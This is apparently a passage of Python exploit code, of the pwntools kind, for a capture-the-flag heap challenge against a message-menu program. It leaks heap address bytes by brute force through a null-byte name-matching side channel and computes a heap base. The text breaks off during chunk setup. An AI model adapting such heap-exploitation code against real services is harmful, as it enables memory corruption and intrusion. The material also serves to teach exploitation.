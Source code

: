 ```py
    return receiver
def edit_msg(name, msg):
    p.recvuntil("> ")
    p.sendline("3")
    p.recvuntil("Name: ")
    p.sendline(name)
    if p.recvn(1) == b"[":
        return False
    p.recvuntil("message: ")
    old = p.recvline()
    p.recvuntil("message: ")
    p.sendline(msg)  
    return True


def print_all():
    p.recvuntil("> ")
    p.sendline("4")
    p.recvuntil("Total: ")
    total = int(p.recvuntil(" ")[:-1])
    prints = []
    for i in range(total):
        p.recvuntil(") ")
        sender = p.recvuntil(":")[:-1]
        msg = p.recvline()[:-1]
        prints.append([sender, msg])
    return prints
def send_all():
    p.recvuntil("> ")
    p.sendline("5")

def main():
    for i in range(7):
        add_msg()

    add_msg()
    send_all()

    chunk_a = add_msg("a", "a")
    third_byte = ""
    for i in range(256):
        if edit_msg("a\x00"+ chr(i), "a") == True and i != 10:
            third_byte = i
            break

    print("third byte is", third_byte)
    fourth_byte = ""
    for i in range(256):
        if edit_msg("a\x00" + chr(third_byte) + chr(i), "a") == True and i != 10:
            fourth_byte = i
            break
    print("third byte is", fourth_byte)

    heap_base = (fourth_byte << 24) + (third_byte << 16) + (0x50 << 8)
            
    print("heap base", hex(heap_base))

    send_all()

    prev_size = 0xf0
    current_chunk_address = heap_base + 0x1500

```
